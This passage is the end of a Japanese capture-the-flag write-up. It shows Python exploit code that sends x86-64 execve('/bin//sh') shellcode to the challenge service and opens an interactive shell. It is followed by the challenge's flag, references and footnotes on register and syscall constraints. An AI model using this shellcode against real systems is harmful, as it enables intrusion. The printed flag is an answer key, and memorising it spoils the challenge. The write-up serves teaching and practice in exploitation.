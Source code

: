 ```python
shellcode2 = b"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05"
sc.sendline(shellcode2)

print("[+] send 2nd")

sc.interactive()
```

## Flag

`ictf{did_mod_5_ring_a_bell_be00c3fa}`

## References

- [x86 and amd64 instruction reference](https://www.felixcloutier.com/x86/index.html)
- [x64でスタックバッファオーバーフローをやってみる - ももいろテクノロジー](https://inaz2.hatenablog.com/entry/2014/07/04/001851): ここに記載されているシェルコードを利用

---

[^1]: そもそも`syscall`すら実行出来ないなら(自己書き換えを除いて)解けないと思う。自己書き換えをするにもスタックのアドレスが必要で、`rsp`を上手く利用するという曲芸になりそう

[^2]: 確か`rcx`もどこかのアドレスが入るらしいが、具体的な値の特徴は忘れた

[^3]: ももいろテクノロジー様、いつもお世話になっています
